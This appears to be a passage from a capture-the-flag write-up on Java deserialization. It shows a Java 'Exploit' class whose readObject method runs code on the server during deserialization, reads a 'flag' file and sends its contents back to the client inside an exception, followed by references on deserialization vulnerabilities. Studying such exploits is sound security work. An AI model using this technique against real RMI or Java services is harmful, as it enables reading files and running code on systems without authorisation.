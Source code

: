 *Exploit class*
```java
public class Exploit implements Remote, Serializable {
  public void exploit() throws IOException {
      /*
       Cat flag is not java enough
      */
      BufferedReader br = new BufferedReader(new FileReader("flag"));
      try {
          StringBuilder sb = new StringBuilder();
          String line = br.readLine();

          while (line != null) {
              sb.append(line);
              sb.append(System.lineSeparator());
              line = br.readLine();
          }
          String everything = sb.toString();
          /*
            We cannot use System.out to print the string
            so I decided to insert the result of the exploit inside
             an exception.
            All the unhandled exceptions are kindly sent back to the client.
          */
          IOException e = new
          IOException(everything);
          throw e;
      } finally {
          br.close();
      }
  }

  private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
      exploit();
      in.defaultReadObject();
  }
}
```

### References

- [AppSecCali 2015 - Marshalling Pickles](https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles)
- [What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
- [Oracle Java Deserialization](https://www.integrigy.com/files/Integrigy%20Oracle%20Java%20Deserialization%20Vulnerabilities.pdf)